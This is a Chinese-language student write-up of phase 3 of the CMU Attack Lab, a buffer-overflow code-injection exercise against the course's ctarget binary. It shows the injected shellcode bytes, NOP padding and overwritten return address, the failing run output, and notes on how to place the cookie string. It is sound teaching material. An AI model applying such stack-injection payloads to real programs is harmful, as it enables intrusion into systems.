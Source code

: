 那么其一直到`ret`的字节即为`bf e4 44 60 00 48 83 ec 08 c7 04 24 fa 18 40 00 c3`。一共 17 个字节。将其字节复制到`phase3.txt`的最前面。添加 23 个`nop`(`0x90`)凑齐 40 个字节，最后 8 个字节的值必须等于`0x5561dc78`。换成小端序就是`0x78 0xdc 0x61 0x55`。

完整字符串如下：

```
bf e4 44 60 00 48 83 ec 08 c7 04 24 fa 18 40 00 c3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 dc 61 55
```

输入`./hex2raw < phase3.txt | ./ctarget `。结果如下：

```bash
Cookie: 0x59b997fa
Type string:Misfire: You called touch3("���Y")
FAIL: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:FAIL:0xffffffff:ctarget:3:BF E4 44 60 00 48 83 EC 08 C7 04 24 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55
```

最后确实跳转到了`touch3`，可是 cookie 字符串的值完全不是我们想要的那个东西啊喂！(很不爽)

#### 忽略随机栈空间的不正确解答

我们最早是认为，应该让`%edi`指向`0x6044e4`，也就是`cookie`字符串所在的位置，来让`%edi`和 cookie 相等，但是好像题目不是这么个意思。仔细看了原本的 C 语言函数后发现，`cookie`不是个字符串，还是个`unsigned`类型，但是我们之前并没有仔细阅读 C 语言函数。因此闹了笑话。争取的意思应该是让`输入的字符串`和`打印出来的 cookie 的值`相同。所以这里不能让`%rdi`指向 cookie 所在位置，因为其类型都不一样。而应该在代码中插入一段字符串，将其值赋给`%rdi`，然后让`%rdi`和`cookie`的打印版进行比较。

那么`cookie`的值是多少？我们使用`p /x cookie`命令打印一下：

```
(gdb) p /x cookie
$4 = 0x59b997fa
```

所以输入的字符串应该是`0x59b997fa`。

经过阅读 attacklab.pdf，作者给出了以下几个提示：

1. 攻击字符串中应该包含一个 cookie 的字符串表示。该字符串应该包含 8 个 16 进制字符（不带 0x）
2. 字符串最后应该有个 0，输入`man ascii`在 Linux 中查找 ascii 表
3. 攻击代码应该让`%rdi`的值等于这个字符串的起始地址
4. `hexmatch`和`strncmp`可能会覆盖一部分`getbuf`中的 buf，注意不要让你的攻击字符串被覆盖掉。

那么初始的准备工作应该是：

1. 确定插入字符串和攻击代码的有效区域，防止被`hexmatch`和`strncmp`影响到
2. 查找`cookie`字符串的编码，加上一个`\0`，并插入到攻击代码之前
3. 确定攻击代码的起始位置（在插入的字符串后），将其地址插入到 buffer overflow 的最后 8 个字节

在攻击代码中所做的工作应该是：

1. 让`%rdi = 插入字符串的起始位置`
2. 将`touch3`的起始位置插入到返回地址处
3. 调用`ret`返回
4. 通过多个`nop`填充字符串（也可以不填充？）

